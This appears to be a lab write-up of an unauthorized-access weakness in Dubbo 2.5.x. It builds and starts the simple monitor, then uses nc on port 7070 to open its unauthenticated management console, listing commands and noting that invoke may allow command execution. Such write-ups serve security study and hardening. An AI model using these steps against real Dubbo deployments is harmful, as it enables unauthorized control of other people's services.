

# Dubbo Unauthorized Access Vulnerability

## Introduction to the vulnerability

Dubbo is an open source, high-performance service framework developed by Alibaba Inc. that enables applications to perform input and output functions via high-performance RPC, and can seamlessly integrate with the Spring framework. Dubbo has an unauthorized access vulnerability due to improper configuration.

## Environment setup

```
git clone https://github.com/alibaba/dubbo/tree/2.5.x
```

Enter the `dubbo-2.5.x` directory

Execute `mvn clean package -Dmaven.test.skip=true`, and the following results will be generated:



In the `dubbo-2.5.x/dubbo-simple/dubbo-monitor-simple/target` directory, you will find `dubbo-monitor-simple-2.5.10-assembly.tar.gz` generated, extract this folder.

Check the configuration file, and you will see that the dubbo protocol port is 7070.

```
[root@localhost dubbo-monitor-simple-2.5.10]# cat conf/dubbo.properties 

dubbo.container=log4j,spring,registry,jetty
dubbo.application.name=simple-monitor
dubbo.application.owner=
dubbo.registry.address=multicast://224.5.6.7:1234
#dubbo.registry.address=zookeeper://127.0.0.1:2181
#dubbo.registry.address=redis://127.0.0.1:6379
#dubbo.registry.address=dubbo://127.0.0.1:9090
dubbo.protocol.port=7070
dubbo.jetty.port=8080
dubbo.jetty.directory=${user.home}/monitor
dubbo.charts.directory=${dubbo.jetty.directory}/charts
dubbo.statistics.directory=${user.home}/monitor/statistics
dubbo.log4j.file=logs/dubbo-monitor-simple.log

```

Start Dubbo

```
[root@localhost dubbo-monitor-simple-2.5.10]# bin/start.sh
```


## Vulnerability exploitation

Connect to port 7070 with `nc`, port 7070 allows you to perform various management tasks, such as checking the status of the registry, listing available services, and viewing the log level of the registry.

```
[root@localhost dubbo-monitor-simple-2.5.10]# nc 127.0.0.1 7070
ls
com.alibaba.dubbo.monitor.MonitorService
dubbo>help
Please input "help [command]" show detail.
 status [-l]                      - Show status.
 pwd                              - Print working default service.
 trace [service] [method] [times] - Trace the service.
 exit                             - Exit the telnet.
 help [command]                   - Show help.
 invoke [service.]method(args)    - Invoke the service method.
 count [service] [method] [times] - Count the service.
 clear [lines]                    - Clear screen.
 ls [-l] [service]                - List services and methods.
 log level                        - Change log level or show log 
 ps [-l] [port]                   - Print server ports and connections.
 cd [service]                     - Change default service.
dubbo>status
OK
dubbo>pwd
/
```

> If the service has command execution capability, the "invoke" command may execute commands as the "invoke" command is used to invoke specific service methods.